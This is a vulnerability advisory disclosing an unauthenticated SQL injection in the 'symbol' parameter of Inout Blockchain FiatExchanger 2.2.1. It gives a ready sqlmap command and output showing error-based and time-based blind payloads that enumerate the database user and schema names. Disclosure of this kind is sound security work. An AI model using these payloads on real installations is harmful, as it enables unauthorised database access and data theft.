


# Information
```
Vulnerability Name  : Remote Blind SQL Injections in Inout Blockchain FiatExchanger
Product             : Inout Blockchain FiatExchanger
version             : 2.2.1
Date                : 2022-05-21
Vendor Site         : https://www.inoutscripts.com/products/inout-blockchain-fiatexchanger/
Exploit Detail      : https://github.com/bigb0x/CVEs/blob/main/Inout-Blockchain-FiatExchanger-221-sqli.md
CVE-Number          : In Progess
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

SQL injection attack has been discovered in Blockchain FiatExchanger v2.2.1 platform. This will allow remote non-authenticated attackers to inject SQL code. This could result in full information disclosure.
<br>

## Vulnerable Parameter: symbol (GET)

<br>

Vulnerability File: /application/third_party/Chart/TradingView/chart_content/master.php line 130

<br>

### Sqlmap command:
`
python sqlmap.py -u "http://http://vulnerable-host.com/application/third_party/Chart/TradingView/chart_content/master.php/history?from=1652675947&resolution=5&symbol=BTC-BCH" -p symbol --dbms=MySQL --banner --random-agent --current-db --dbs --current-user

`
<br>

### output:
`
[20:05:54] [INFO] fetched random HTTP User-Agent header value 'Opera/9.20(Windows NT 5.1; U; en)' from file '/root/sqlmap/data/txt/user-agents.txt'
[20:05:55] [INFO] testing connection to the target URL
[20:05:55] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:

Parameter: symbol (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: from=1652675947&resolution=5&symbol=BTC-BCH' AND (SELECT 1746 FROM(SELECT COUNT(*),CONCAT(0x71707a6b71,(SELECT (ELT(1746=1746,1))),0x7171627671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'hIKU'='hIKU

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: from=1652675947&resolution=5&symbol=BTC-BCH' AND (SELECT 4566 FROM (SELECT(SLEEP(5)))kVcR) AND 'JGrB'='JGrB

[20:05:55] [INFO] testing MySQL
[20:05:56] [INFO] confirming MySQL
[20:05:57] [INFO] the back-end DBMS is MySQL
[20:05:57] [INFO] fetching banner
[20:05:57] [INFO] resumed: '5.6.50'
web application technology: PHP 7.0.33
back-end DBMS: MySQL >= 5.0.0
banner: '5.6.50'
[20:05:57] [INFO] fetching current user
[20:05:57] [INFO] retrieved: 'root@localhost'
current user: 'root@localhost'
[20:05:57] [INFO] fetching current database
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_db'
current database: 'inout_blockchain_fiatexchanger_db'
[20:05:57] [INFO] fetching database names
[20:05:57] [INFO] resumed: 'information_schema'
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_addons_db'
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_cryptotrading_db'
[20:05:57] [INFO] resumed: 'inout_blockchain_fiatexchanger_db'
[20:05:57] [INFO] resumed: 'mysql'
[20:05:57] [INFO] resumed: 'performance_schema'
available databases [6]:
[*] information_schema
[*] inout_blockchain_fiatexchanger_addons_db
[*] inout_blockchain_fiatexchanger_cryptotrading_db
[*] inout_blockchain_fiatexchanger_db
[*] mysql
[*] performance_schema

`
<br>

<br>

<br>


## Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-21: Advisory published
```

<br>

## Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed@gmail.com

```
